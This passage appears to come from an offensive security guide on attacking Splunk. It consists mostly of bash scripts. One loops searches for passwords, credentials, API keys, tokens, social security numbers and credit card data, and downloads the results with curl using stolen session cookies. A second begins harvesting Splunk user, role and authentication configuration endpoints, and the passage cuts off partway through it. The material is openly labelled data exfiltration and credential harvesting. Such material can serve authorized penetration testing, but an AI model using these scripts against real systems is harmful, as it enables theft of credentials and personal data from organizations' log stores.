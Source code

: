 
## Data Exfiltration and Intelligence Gathering

### Sensitive Data Discovery

#### Log Data Analysis and Extraction
```bash
# Comprehensive data exfiltration from Splunk indexes
extract_sensitive_data() {
    local splunk_url=$1
    
    echo "[+] Extracting sensitive data from Splunk indexes"
    
    # High-value search queries for data exfiltration
    sensitive_searches=(
        'eventtype=authentication | head 1000'
        'sourcetype=*windows* password OR credential | head 500'
        'source=*security* user=* | head 1000'
        'index=_audit action=login | head 500'
        'email OR username OR account | head 1000'
        'database OR connection_string | head 100'
        'api_key OR token OR secret | head 100'
        'ssn OR social_security OR credit_card | head 100'
    )
    
    for search in "${sensitive_searches[@]}"; do
        echo "[+] Executing search: $search"
        
        # URL encode search query
        encoded_search=$(echo "$search" | sed 's/ /%20/g' | sed 's/|/%7C/g')
        
        # Execute search and save results
        search_filename="search_$(echo "$search" | md5sum | cut -d' ' -f1).txt"
        
        curl -s -b cookies.txt \
          "$splunk_url/en-US/app/search/search?q=$encoded_search&output_mode=csv" \
          > "$search_filename"
        
        echo "  [+] Results saved to: $search_filename"
    done
    
    echo "[+] Data exfiltration complete - review saved files"
}

# extract_sensitive_data "http://target.com:8000"
```

#### Configuration and Credential Harvesting
```bash
# Extract Splunk configuration and stored credentials
harvest_splunk_configs() {
    local splunk_url=$1
    
    echo "[+] Harvesting Splunk configurations and credentials"
    
    # Configuration endpoints
    config_urls=(
        "/services/server/info"
        "/services/authentication/users"
        "/services/authorization/roles"
        "/services/configs/conf-authentication"
        "/services/configs/conf-server"
        "/services/data/indexes"
```